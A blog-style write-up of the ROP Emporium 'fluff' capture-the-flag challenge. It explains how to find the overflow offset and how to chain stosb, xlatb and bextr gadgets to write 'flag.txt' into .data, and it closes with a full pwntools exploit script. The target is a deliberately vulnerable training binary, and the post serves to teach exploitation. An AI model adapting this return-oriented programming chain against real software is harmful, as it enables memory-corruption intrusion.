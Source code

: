 ```yaml
---
layout: post
title: ropemporium - fluff
date: 2025-01-06 00:13:37 +0300
description: 
img: ropemporium-fluff/fluff-cover.png
fig-caption: 
tags:
  - ctf
---
```

*Starting with the basics again, but now with a not-so-simple approach. Removing some gadgets to put some exquisite ones on place, would made the 6th challenge a little bit more complex to deal with. This challenge was indeed a very good reminder to always pay attention to different assembly instructions and how they work.*

The challenge gives us the explanation that the binary doesn't contain any straightforward gadgets, and that we should just do the same as we did in the *write4* challenge:
1. Write the "**flag.txt**" in some place in memory;
2. Call the *print_file()* function passing the string location as a parameter.

Starting with the check sec for the challenge, we found out that the binary contain the following security checks:

```bash
pwn checksec --binary ./fluff
```

![](../assets/img/ropemporium-fluff/Pasted%20image%2020250105005402.png)
- Partial RELRO
- NX enabled

Going to the first step, detecting the buffer overflow, so we sent a 100 byte long pattern generated with *msf-pattern_create* and checked with *msf-pattern_offset*.

![](../assets/img/ropemporium-fluff/Pasted%20image%2020250105005508.png)
```bash
msf-pattern_create -l 100
```

Capturing the **RSP** value, we got exact match at offset 40.

![](../assets/img/ropemporium-fluff/fluff-cover.png)
![](../assets/img/ropemporium-fluff/Pasted%20image%2020250105005631.png)
```bash
msf-pattern_offset -q 0x3562413462413362
```

As said in the [write4 challenge post](https://b4nng.github.io/2024-12-28-ropemporium-write4):
>Before starting, we have to consider some things:
>1. We have to find a valid writable **and** readable place in memory to put our "**flag.txt**" string.
>2. As the challenge suggests, find a gadget that could move our string into that address, e.g. `mov [eax], ebx`


The step 1 in this case could be achieved verifying the sections existent on the binary using *radare2*:

```bash
rabin2 -S ./fluff
```

![](../assets/img/ropemporium-fluff/Pasted%20image%2020250105005658.png)

Choosing the *.data* section as we have no data in there and it's read & write, let's dive into the step 2.

![](../assets/img/ropemporium-fluff/Pasted%20image%2020250105005759.png)

Checking our existent gadgets, no gadgets such as `mov [reg], reg` were found, so a deep analysis into the found ones was needed.

```bash
ROPgadget --binary fluff --depth 10
```

![](../assets/img/ropemporium-fluff/Pasted%20image%2020250105005843.png)

The found gadgets to send the string to memory were the following:

```python
0x0000000000400639 : stosb byte ptr [rdi], al ; ret
0x0000000000400628 : xlatb ; ret
0x000000000040062a : pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret
```

Those found gadgets could be used to put information inside our memory locations properly, giving a quick explanation on how they work:
- *STOSB* - Write a byte into the destination operand, in this case, basically a `mov byte [rdi], al`;
- *XLATB* - Using the *RBX* address as a pointer for a list, picks the byte value inside *AL*, use it as an index to that list, pick the value in that list in the (*AL* value) index position and store it inside *AL*, overriding the previous register's value. In this case, basically a `mov al, byte [rbx+al]`.
- *BEXTR* - This is a little bit complex, but basically picks the desired amount of bits of the origin operand (*RCX*), and store it into the destination (*RBX*), using 2 bytes to define the amount of bits and the starting index to copy (*RDX*), simplifying (A LOT) for our use, basically a `mov rbx, rcx`. ([a very good explanation was found here.](https://stackoverflow.com/questions/70208751/how-does-the-bextr-instruction-in-x86-work)).

From here, the logic for our chain is built:
1. Set *RBX* to address of the opcodes in bytes, equivalent for each char of the string "**flag.txt**", using the *BEXTR* gadget;
2. Set *RDI* to a pointer of *.data*;
4. Put the hex value of the character into *AL* using *XLATB* gadget;
5. Send *AL* value to *RDI* location using *STOSB* gadget;
6. Repeat the operation until the string is completed, correcting the offset to the correct position;
7. Set *RDI* to a pointer of *.data*;
8. Call *print_file()*;
9. gg :)

In order to write the "**flag.txt**" string into memory, I decided to pick each character from parts of the program itself (a memory address for "**f**", a memory address for "**l**", a memory address for "**a**", and so it goes).

To accomplish that, *ROPGadget* have a feature to search for each opcode inside the program, so it was used to search for the corresponding opcode of each character.

E.g. the character "**f**" have its hex value as **66**.

```bash
ROPgadget --binary fluff --opcode 66
```

![](../assets/img/ropemporium-fluff/Pasted%20image%2020250106155337.png)

This small snippet in python was used to automatically get one of those addresses, returning an ordered list in to build the string:

```python
#!/usr/bin/env python
import sys, os

string = sys.argv[1]

for c in string:
    hexcode = hex(ord(c)).strip('0x')
    os.system("ROPgadget --binary fluff --opcode "+hexcode+" | tail -n1")
```

Since we didn't have  any badchars, there was no need to check each address, so we got the addresses for each character as follows:

![](../assets/img/ropemporium-fluff/Pasted%20image%2020250106155714.png)

Now, together with the gadgets gathered throughout the searching, there is some calculations to perform in order to get the proper index of the character.

Let's analyze the gadget that will be used to extract the character from memory and write into "**AL**":

```python
pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx ; ret
```

The address that will be popped must be subtracted `0x3ef2` to nullify the addition that will be performed on it, and subtract the value already inside *RAX* so it won't be changed by the index. 

The address of each character was mapped inside a `flagstr` array, and the values inside *RAX* was mapped as each byte code of the characters themselves inside `rax_values` array.

Before setting the `rax_values` array, the calculations must be performed for the values **already** present at *RAX*, so to discover the value during the operation 0, the program was executed and stopped at the exact moment of the return function, and the value present every execution at the *RAX* register was `0xb`.

![](../assets/img/ropemporium-fluff/Pasted%20image%2020250106173008.png)

This will be the first element in the array, followed by the "**flag.txt**" bytecodes, since they will be the value of *RAX* after every iteration.

A little function was defined to deal with all of those calculations.

```python
rax_values = [0xb,0x66,0x6c,0x61,0x67,0x2e,0x74,0x78,0x74]

flagstr = [0x4006a6,0x400405,0x4005d2,0x4007a0,0x4006a7,0x4006ce,0x4007bc,0x4006ce]

def get_origin_from_flagstr(index):
    return p64(flagstr[index]-0x3ef2-rax_values[index])
```

Creating the payload with the following final exploit code:
```python
from pwn import *

elf = context.binary = ELF("./fluff")

gdg = dict()

# Buffer fill
BUFFER_FILL = b"A"*40
DUMMY = p64(0xdeadbeefdeadbeef)

# Gadgets
gdg["pop rdi"] = p64(0x4006a3)
gdg["pop rbx,rbp,r12 to r15"] = p64(0x40069a)
gdg["stosb rdi"] = p64(0x400639)
gdg["xlatb"] = p64(0x400628)
gdg["mov eax, 0; pop rbp"] = p64(0x400610)
gdg["pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx"] = p64(0x40062a)

# flag.txt
flagstr = [0x4006a6,0x400405,0x4005d2,0x4007a0,0x4006a7,0x4006ce,0x4007bc,0x4006ce]

# Values contained inside RAX that will serve as index for XLATB
rax_values = [0xb,0x66,0x6c,0x61,0x67,0x2e,0x74,0x78,0x74]

def get_origin_from_flagstr(index):
    return p64(flagstr[index]-0x3ef2-rax_values[index])

# Address of print_file@plt
PRINT_FILE = p64(0x400510)

# Address of .data
DATA_SECTION = p64(0x601028)

payload = BUFFER_FILL
payload += gdg["pop rdi"]
payload += DATA_SECTION

for c in range(0,len(flagstr)): # Array containing each character address in the code for "flag.txt"
    payload += gdg["pop rdx ; pop rcx ; add rcx, 0x3ef2 ; bextr rbx, rcx, rdx"]
    payload += p64(0x1f00)
    payload += get_origin_from_flagstr(c)
    payload += gdg["xlatb"]
    payload += gdg["stosb rdi"]

payload += gdg["pop rdi"]
payload += DATA_SECTION
payload += PRINT_FILE

io = process(elf.path)
io.send(payload)
io.interactive()
```

We got the flag:

![](../assets/img/ropemporium-fluff/Pasted%20image%2020250105012608.png)
*Changed the flag name a bit just 4fun :)*